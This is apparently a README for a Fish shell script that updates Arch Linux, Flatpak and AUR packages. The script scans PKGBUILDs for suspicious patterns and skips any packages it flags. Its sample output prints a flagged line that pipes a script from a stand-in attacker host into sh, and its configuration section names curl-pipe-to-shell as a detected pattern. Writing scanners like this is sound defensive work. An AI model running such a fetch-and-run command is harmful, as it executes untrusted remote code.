 Ultimate Arch Updater (Fish Shell)
A single-command, secure, and fully automated Arch Linux updater written for the Fish shell. It handles official repositories, AUR packages, and Flatpaks, performs safety audits on PKGBUILDs, cleans orphans and caches, and produces a concise system summary.
Features
Security & Disclaimer
Requirements
Installation
Configuration
Execution Flow
Example Output
License
Author
Features
Customizable AUR Safety Scanner: Inspects PKGBUILD and .install files for dangerous command patterns before updating. Allows you to whitelist trusted packages and create exceptions for known-safe commands.
Selective Updates: If a suspicious package is found, it is automatically skipped, allowing the rest of your AUR updates to proceed safely.
Comprehensive System Update: Handles pacman, AUR helpers (yay or paru), and flatpak in a single, unified command.
Automated System Cleanup: Removes orphaned packages and clears package caches from pacman and your AUR helper to save space.
Optional DNS Integration: Can automatically ensure your system is connected to Cloudflare's secure DNS via the onedns script.
Final Report: Concludes with a concise summary of your system's package counts and security status.
Security & Disclaimer
This script is a tool, not a replacement for vigilance.
Manual Auditing is Recommended: The security scanner provides an important first line of defense against common malicious patterns. However, it is not foolproof and cannot detect every possible threat. You should always manually inspect the PKGBUILD for any new or unfamiliar AUR packages.
Not 100% Robust: The scanner works by matching patterns. A sophisticated attacker could potentially obfuscate their code to evade detection.
Use at Your Own Risk: The author is not responsible for any damage to your system that may result from using this script or from installing a malicious AUR package. This tool is provided as-is, without warranty.
Requirements
Component	Purpose	Required
Fish Shell	To execute the function	✅
pacman	Core package manager	✅
yay or paru	AUR helper	✅ (one of them)
onedns	Optional secure DNS setup	Optional
flatpak	Optional app updates	Optional
pacman-contrib (paccache)	Cache cleanup	Optional
Installation
Clone the repository:
code
Bash
git clone https://github.com/karanveers969/ultimate-arch-updater.git
cd ultimate-arch-updater
Install the function into your Fish configuration directory:
code
Bash
mkdir -p ~/.config/fish/functions
cp update.fish ~/.config/fish/functions/update.fish
Open a new terminal and run the updater:
code
Bash
update
Configuration
All customization is done by editing the configuration block at the top of the ~/.config/fish/functions/update.fish file.
CONFIG_TRUSTED_PACKAGES
Add package names to this list to completely bypass the security scan for them. This is for packages you have already verified and trust completely.
code
Fish
# Example:
set -l CONFIG_TRUSTED_PACKAGES betterbird-bin localsend-bin octopi
CONFIG_EXCEPTION_PATTERNS
This allows you to create exceptions for specific commands that might otherwise be flagged as suspicious. If a line containing a dangerous pattern (like curl | sh) also contains one of these exception strings, it will be ignored. This is perfect for whitelisting known-safe installers.
code
Fish
# Example: The official Rust installer uses curl | sh.
# To prevent the scanner from flagging it, we can add its unique URL as an exception.
set -l CONFIG_EXCEPTION_PATTERNS 'sh.rustup.rs'
CONFIG_DNS_ENABLED
Set to true to enable the Cloudflare DNS check, or false to disable it entirely.
code
Fish
set -l CONFIG_DNS_ENABLED true
Execution Flow
Connects to Cloudflare DNS (if onedns is installed and enabled).
Updates official Arch repositories via pacman.
Scans all installed AUR packages for suspicious patterns, honoring your trusted packages and exceptions.
Updates AUR packages, automatically skipping any packages that were flagged as suspicious.
Updates Flatpak applications.
Removes orphaned packages.
Cleans pacman, yay, and/or paru caches.
Prints a concise system summary, including a list of any packages that were skipped.
Example Output
code
Code
[...]
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 🧠 Scanning AUR Packages for Security Issues
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
🔍 Found 25 AUR package(s). Scanning...
  - betterbird-bin (whitelisted, skipped)
🚨 CRITICAL: Suspicious pattern in 'some-bad-package' (PKGBUILD)!
   Line: curl http://evil.com/script.sh | sh

⚠️  Found 1 suspicious package(s). Review /home/user/.aur_security_scan.log

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 🧠 Updating AUR Packages
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
⛔ Suspicious packages detected; they will be skipped.
   - Skipping: some-bad-package
:: Synchronizing package databases...
[...]
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
 🧠 System Update Complete
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
📊 Status:
  - Explicit Packages: 288
  - AUR Packages:      25
  - Flatpak Apps:      3

🔒 Security Alert: 1 suspicious AUR package(s) detected.
   The following were SKIPPED:
     - some-bad-package
   Review log: /home/user/.aur_security_scan.log

done ✅
License
MIT License — see LICENSE for details.
Author
https://github.com/karanveers969
